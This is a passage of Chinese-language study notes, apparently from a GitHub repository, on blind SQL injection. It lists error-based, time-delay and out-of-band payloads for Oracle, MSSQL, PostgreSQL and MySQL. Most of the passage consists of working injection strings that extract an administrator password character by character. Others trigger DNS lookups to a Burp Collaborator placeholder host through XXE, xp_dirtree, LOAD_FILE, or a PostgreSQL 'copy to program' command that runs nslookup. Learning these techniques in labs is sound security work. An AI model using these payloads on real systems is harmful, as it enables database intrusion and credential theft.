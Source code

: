 >'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'
>判断第一个字符是否是’a 若程序报错 则说明是a

### 触发时间延迟SQL盲注

#### 判断是否存在SQL

>' || SLEEP(10)--
>如果目标延迟10秒反应则说明存在

*备注*
甲骨文&emsp;&emsp;&emsp;&emsp;dbms_pipe.receive_message(('a'),10)
微软&emsp;&emsp;&emsp;&emsp;&emsp;WAITFOR DELAY '0:0:10'
PostgreSQL&emsp;&emsp;SELECT pg_sleep(10)
MySQL&emsp;&emsp;&emsp;&emsp;SELECT SLEEP(10)

#### 判断是否存在表
构造判断 时间延迟语句
>' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
>若存在则系统会延迟10秒
>' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--

#### 判断内容长度

>' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
>若字符串长度大于1 则系统延迟10秒

#### 判断内容

>' || (SELECT CASE WHEN (username='administrator' AND SUBSTR(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
>若第一字符为 a 则系统延迟10秒

### 外带（OAST）技术SQL盲注

#### 生成DNS

BurpSuite 打开 Burp 中的Burp Collaborator client
生成DNS 点击Copy to clipboard 复制域名

#### 构造DNS lookup语句

*备注*
甲骨文	
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?> < !DOCTYPE root [ < ! ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/" > %remote; ] >'),'/l') FROM dual

以下技术适用于完全修补的 Oracle 安装，但需要提升权限：
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

微软	
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	以下技术仅适用于 Windows：
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
